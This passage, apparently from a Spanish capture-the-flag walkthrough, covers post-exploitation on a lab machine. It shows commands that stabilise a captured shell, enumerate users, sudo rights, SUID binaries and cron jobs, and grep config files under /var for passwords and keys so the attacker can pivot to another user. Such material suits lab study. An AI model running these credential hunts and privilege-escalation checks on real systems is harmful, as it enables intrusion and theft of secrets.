 ### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Investigamos la maquina {-}

```bash
ls -l
cd /home
ls -l
cd noah/
cat user.txt
```

Permission denied. Nos tenemos que pasar al usuario Noah

### User Pivoting al usuario noah {-}

#### Analizamos el systema {-}

```bash
id
sudo -l
cd /
find \-perm -4000 2>/dev/null
cat /etc/crontab
ls -l /var/spool/cron
```

No vemos nada. Tendremos que pasar por el sistema web

```bash
cd /var
find \-type f 2>/dev/null
find \-type f 2>/dev/null | grep "config"
find \-type f 2>/dev/null | grep "config" | xargs grep "password" 2>/dev/null
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null | grep -v "debconf"
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null | grep -v -E "debconf|keyboard"
```
